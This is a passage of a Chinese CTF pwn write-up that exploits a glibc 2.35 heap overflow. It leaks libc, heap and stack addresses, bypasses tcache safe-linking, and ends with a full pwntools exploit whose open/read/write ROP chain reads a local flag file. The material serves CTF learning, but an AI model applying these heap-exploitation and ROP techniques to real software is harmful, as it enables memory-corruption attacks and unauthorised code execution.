 0011: 0x06 0x00 0x00 0x00000000  return KILL
```

允许read，write，open，mprotect的系统调用，意图很简单，打orw

### 泄露libc和heap

```
add(0x400,b'a')#0
add(0x400,b'b')#1
add(0x400,b'c')#2
add(0x400,b'/bin/sh\x00')#3

edit(0,b'a'*0x400+p64(0)+p64(0x821))
dele(1)
add(0x400,b'b')#1 6a0

show(2)
p.recv(8)
libc_base=u64(p.recv(6).ljust(8,b'\x00'))-0x21ace0
add(0x400,b'd')#4 ab0
add(0x400,b'e')#5 2d0
add(0x400,b'f')#6 6e0
add(0x400,b'g')#7
dele(4)
dele(5)
edit(1,b'b'*0x410)
show(1)
p.recvuntil(b'b'*0x410)
heap_base=u64(p.recv(5).ljust(8,b'\x00'))
heap_base=heap_base*0x1000-0x2000
```

利用堆溢出来构造chunk\_overlap构造unsorted，然后申请回来，就可以泄露libc地址了

再一次构造tcache，由于printf遇到\x00才会截至，所以我们一直覆盖完tcache的size位，直接show就可以得到heap地址了



同时由于2.35下tcache的fd指针加密机制，我们得到的地址要右移12，也就是\*0x1000

### 泄露栈地址

#### 算出偏移

这一步可以直接用gdb调试，无需脚本，只需要执行到相应函数的leave ret处即可

  
可以计算得到，偏移是0x188

#### 泄露environ里面的内容

```
target=environ-0x400
heap1=(heap_base+0x3af0)>>12
fake_fd=target^heap1
dele(7)
edit(6,b'z'*0x400+p64(0)+p64(0x411)+p64(fake_fd))
add(0x400,b'd')#4
add(0x400,b'e')#5
edit(5,b'abcdefgh'*0x80)
show(5)
p.recvuntil(b'abcdefgh'*0x80)
stack_addr=l64()-0x188
```

这里为什么申请到environ-0x400的位置，是因为我们直接申请到environ上面，由于程序会对申请到的空间进行memset也就是初始化，直接申请到environ上面，environ的内容会被置零，比较好的方法就是申请到environ前面一段，然后把中间的空间全部填满，直到environ部分,再调用show就能够泄露处environ的内容了

至于绕过fd指针加密保护，就是用当前chunk右移三位，然后和target进行异或得到，glibc利用的时候进行解密，就能够正确的申请到对应空间，这里我们gdb调试看看

  
可以看到，tcache的fd指针被我们写成了加密之后的target，我们对fake\_fd进行解密看看

  
逆过来得到的也是我们想要的地址

### 展开攻击

利用条件都满足了，下面就是开展攻击了

```
orw=b'./flag\x00\x00'
orw+=p64(rdi_pop)+p64(stack_addr+0x10)
orw+=p64(rsi_pop)+p64(0)
orw+=p64(rdx_rbx_pop)+p64(0)*2
orw+=p64(rax_pop)+p64(2)
orw+=p64(syscall)#open(stack_addr+0x10,0,0)
orw+=p64(rdi_pop)+p64(3)
orw+=p64(rsi_pop)+p64(stack_addr-0x300)
orw+=p64(rdx_rbx_pop)+p64(0x30)*2
orw+=p64(rax_pop)+p64(0)
orw+=p64(syscall)#read(3,stack_addr-0x300,0x30)
orw+=p64(rdi_pop)+p64(1)
orw+=p64(rsi_pop)+p64(stack_addr-0x300)
orw+=p64(rdx_rbx_pop)+p64(0x30)*2
orw+=p64(rax_pop)+p64(1)
orw+=p64(syscall)#write(1,stack_addr-0x300,0x30)

add(0x300,b'iiii')#7 af00
add(0x300,b'jjjj')#8 b290
add(0x300,b'kkkk')#9 b620
add(0x300,b'mmmm')#10 b9b0
dele(9)
dele(8)
heap2=(heap_base+0x4210)>>12
target = stack_addr+0x10
fake_fd = heap2 ^ target
edit(7,b'a'*0x300+p64(0)+p64(0x311)+p64(fake_fd))
add(0x300,b'aaab')
#dbg()
add(0x300,orw)
```

构造的orw里面我们使用系统调用而不是直接使用函数，主要是使用函数的话，我们的栈空间会被破坏，可能导致攻击失败，此外这个syscall是使用ropper工具得到的syscall;ret

此时我们写入的地址是stack\_addr+0x10，主要原因如下：

1. 程序开启了canary保护，而无法泄露canary，只能跳过该部分
2. rsp-0x8的部分是程序内对应index的索引，不能修改，所以也要跳过

我们直接写到rsp+0x10的部分



写到了rbp的位置，构造的orw中的b'./flag\x00\x00'正好八个字节，把rbp完全覆盖，然后的rip直接指向了我们的open函数

至此，攻击完成

  
这个flag是我在本地写好的一个flag文件

### 完整EXP

```
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
fn='./pwn'
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
eir = 0
if eir == 1:
    p=remote("",)
elif eir == 0:
    p=process(fn)
elf=ELF(fn)

def open_gdb_terminal():
    pid = p.pid
    gdb_cmd = f"gdb -ex 'attach {pid}' -ex 'set height 0' -ex 'set width 0'"
    subprocess.Popen(["gnome-terminal", "--geometry=120x64+0+0", "--", "bash", "-c", f"{gdb_cmd}; exec bash"])

def dbg():
    open_gdb_terminal()
    pause()


sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ita = lambda : p.interactive()
l64 = lambda : u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
ll64 = lambda : u64(p.recv(6).ljust(8,b'\x00'))
pt = lambda s : print("leak----->",hex(s))

def menu(choice):
    sla("choice >> ",str(choice))

def add(size,cnt):
    menu(1)
    sla("size:",str(size))
    sa("content:",cnt)

def dele(index):
    menu(2)
    sla("idx:\n",str(index))

def edit(index,cnt):
    menu(3)
    sla("idx:",str(index))
    sla("size:",str(0x500))
    sa("content:",cnt)
def show(index):
    menu(4)
    sla("idx:",str(index))

add(0x400,b'a')#0
add(0x400,b'b')#1
add(0x400,b'c')#2
add(0x400,b'/bin/sh\x00')#3

edit(0,b'a'*0x400+p64(0)+p64(0x821))
dele(1)
add(0x400,b'b')#1 6a0

show(2)
p.recv(8)
libc_base=u64(p.recv(6).ljust(8,b'\x00'))-0x21ace0
add(0x400,b'd')#4 ab0
add(0x400,b'e')#5 2d0
add(0x400,b'f')#6 6e0
add(0x400,b'g')#7
dele(4)
dele(5)
edit(1,b'b'*0x410)
show(1)
p.recvuntil(b'b'*0x410)
heap_base=u64(p.recv(5).ljust(8,b'\x00'))
heap_base=heap_base*0x1000-0x2000
edit(1,b'b'*0x400+p64(0)+p64(0x411))
environ=libc_base+libc.sym['environ']
rsi_pop=libc_base + libc.search(asm('pop rsi;ret;')).__next__()
rdi_pop = libc_base + libc.search(asm('pop rdi;ret;')).__next__()
rax_pop=libc_base+libc.search(asm('pop rax;ret;')).__next__()
rdx_rbx_pop=libc_base+0x00000000000904a9
syscall=libc_base+0x0000000000091316

target=environ-0x400
heap1=(heap_base+0x3af0)>>12
fake_fd=target^heap1
dele(7)
edit(6,b'z'*0x400+p64(0)+p64(0x411)+p64(fake_fd))
add(0x400,b'd')#4
add(0x400,b'e')#5
edit(5,b'abcdefgh'*0x80)
show(5)
p.recvuntil(b'abcdefgh'*0x80)
stack_addr=l64()-0x188

orw=b'./flag\x00\x00'
orw+=p64(rdi_pop)+p64(stack_addr+0x10)
orw+=p64(rsi_pop)+p64(0)
orw+=p64(rdx_rbx_pop)+p64(0)*2
orw+=p64(rax_pop)+p64(2)
orw+=p64(syscall)#open(stack_addr+0x10,0,0)
orw+=p64(rdi_pop)+p64(3)
orw+=p64(rsi_pop)+p64(stack_addr-0x300)
orw+=p64(rdx_rbx_pop)+p64(0x30)*2
orw+=p64(rax_pop)+p64(0)
orw+=p64(syscall)#read(3,stack_addr-0x300,0x30)
orw+=p64(rdi_pop)+p64(1)
orw+=p64(rsi_pop)+p64(stack_addr-0x300)
orw+=p64(rdx_rbx_pop)+p64(0x30)*2
orw+=p64(rax_pop)+p64(1)
orw+=p64(syscall)#write(1,stack_addr-0x300,0x30)

add(0x300,b'iiii')#7 af00
add(0x300,b'jjjj')#8 b290
add(0x300,b'kkkk')#9 b620
add(0x300,b'mmmm')#10 b9b0
dele(9)
dele(8)
heap2=(heap_base+0x4210)>>12
target = stack_addr+0x10
fake_fd = heap2 ^ target
edit(7,b'a'*0x300+p64(0)+p64(0x311)+p64(fake_fd))
add(0x300,b'aaab')
#dbg()
add(0x300,orw)


ita()
```
